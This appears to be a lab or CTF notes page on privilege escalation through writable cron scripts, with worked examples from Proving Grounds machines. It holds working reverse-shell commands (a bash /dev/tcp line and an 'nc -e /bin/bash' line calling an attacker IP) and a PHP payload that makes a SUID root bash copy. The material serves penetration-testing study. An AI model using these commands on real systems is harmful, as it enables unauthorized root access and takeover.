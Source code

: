 ```yaml
---
layout: default
title: Writable Script
parent: Cron
nav_order: 2
---
```


# Writable Script

---

## /bin/bash Reverse Shell

Enumerate user _funny_ home directory and locate a _.backup.sh_ that is creating a backup of _/var/www/html_ every 1 minute.

```bash
joe@funbox:/home/funny$ ls -la
ls -la
total 47592
drwxr-xr-x 3 funny funny     4096 Aug 21  2020 .
drwxr-xr-x 4 root  root      4096 Jun 19  2020 ..
-rwxrwxrwx 1 funny funny       55 Aug 21  2020 .backup.sh
lrwxrwxrwx 1 funny funny        9 Aug 21  2020 .bash_history -> /dev/null
-rw-r--r-- 1 funny funny      220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 funny funny     3771 Feb 25  2020 .bashrc
drwx------ 2 funny funny     4096 Jun 19  2020 .cache
-rw-rw-r-- 1 funny funny 48701440 Nov 16 03:36 html.tar
-rw-r--r-- 1 funny funny      807 Feb 25  2020 .profile
-rw-rw-r-- 1 funny funny      162 Jun 19  2020 .reminder.sh
joe@funbox:/home/funny$ cat .backup.sh
cat .backup.sh
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html

```

_.backup.sh_ is world writeable so we can edit this script to give us a reverse shell as _root_ user.

```bash
joe@funbox:/home/funny$ echo '/bin/bash -i >& /dev/tcp/192.168.45.217/9002 0>&1' >> .backup.sh
echo '/bin/bash -i >& /dev/tcp/192.168.45.217/9002 0>&1' >> .backup.sh
joe@funbox:/home/funny$ cat .backup.sh
cat .backup.sh
#!/bin/bash
tar -cf /home/funny/html.tar /var/www/html
/bin/bash -i >& /dev/tcp/192.168.45.217/9002 0>&1
```

After a couple minutes we get a reverse shell as _root_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/funbox]
└─$ nc -nlvp 9002
listening on [any] 9002 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.218.77] 41312
bash: cannot set terminal process group (4896): Inappropriate ioctl for device
bash: no job control in this shell
root@funbox:~# id
id
uid=0(root) gid=0(root) groups=0(root)
root@funbox:~# whoami
whoami
root
root@funbox:~# cat /root/proof.txt
cat /root/proof.txt
3d96************************
```

## Netcat Reverse Shell

The script _.trash_old_ should execute with root permissions.

```bash
penguin@glasgowsmile:~/SomeoneWhoHidesBehindAMask$ ls -la
total 332
drwxr--r-- 2 penguin penguin   4096 Nov 18 22:03 .
drwxr-xr-x 5 penguin penguin   4096 Nov 18 21:59 ..
-rwSr----- 1 penguin penguin 315904 Jun 15  2020 find
-rw-r----- 1 penguin root      1457 Jun 15  2020 PeopleAreStartingToNotice.txt
-rwxr-xr-x 1 penguin root       662 Nov 18 22:03 .trash_old
-rw-r----- 1 penguin penguin     32 Aug 25  2020 user3.txt

```

Assuming this is probably being executed by _root_ on a cron job, let's edit and add a command that creates a _rootbash_ script with root privileges.

```bash
#/bin/sh

#       (            (              )            (      *    (   (
# (      )\ )   (     )\ ) (      ( /( (  (       )\ ) (  `   )\ ))\ )
# )\ )  (()/(   )\   (()/( )\ )   )\()))\))(   ' (()/( )\))( (()/(()/( (
#(()/(   /(_)((((_)(  /(_)(()/(  ((_)\((_)()\ )   /(_)((_)()\ /(_)/(_)))\
# /(_))_(_))  )\ _ )\(_))  /(_))_  ((__(())\_)() (_)) (_()((_(_))(_)) ((_)
#(_)) __| |   (_)_\(_/ __|(_)) __|/ _ \ \((_)/ / / __||  \/  |_ _| |  | __|
#  | (_ | |__  / _ \ \__ \  | (_ | (_) \ \/\/ /  \__ \| |\/| || || |__| _|
#   \___|____|/_/ \_\|___/   \___|\___/ \_/\_/   |___/|_|  |_|___|____|___|
#

#

nc -e /bin/bash 192.168.45.217 9001

exit 0


```

After a minute we get a reverse shell as root

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/glasgowsmile]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [192.168.45.217] from (UNKNOWN) [192.168.202.79] 37926
whoami
root

```

## Copy /bin/bash to Privesc

Enumerate Processes and see _root_ is running _/bin/sh_ to run PHP on an internal site and the directory _/var/tmp/sv/_

```bash
ps aux | grep -i 'root' --color=auto
```

![proc](../../../../assets/images/ctfs/proving_grounds/solstice/proc.png)

We know from checking SUID directories that _/var/tmp/sv_ has the SUID bit set.

We have full read/write to _/var/tmp/sv/index.php_

![index](../../../../assets/images/ctfs/proving_grounds/solstice/index.png)

Edit _index.php_ to execute a PHP system command that generates a root shell by copying _/bin/bash_ to _/var/tmp/bash_

```bash
<?php
echo "You've been pwned!!!!";
system("cp /bin/bash /var/tmp/bash ; chmod u+s /var/tmp/bash");
?>
```

![nano](../../../../assets/images/ctfs/proving_grounds/solstice/nano.png)

We now need to _curl_ the internally accessible web service running on port 57 in order to execute _index.php_ and generate our
malicious _/var/tmp/bash_ binary.

![curl](../../../../assets/images/ctfs/proving_grounds/solstice/curl.png)

Navigate to _/var/tmp_ to see our exploit.

![var_tmp](../../../../assets/images/ctfs/proving_grounds/solstice/var_tmp.png)

Execute our malicious _bash_ binary with the _-p_ flag to persist root privileges

![bash](../../../../assets/images/ctfs/proving_grounds/solstice/bash.png)
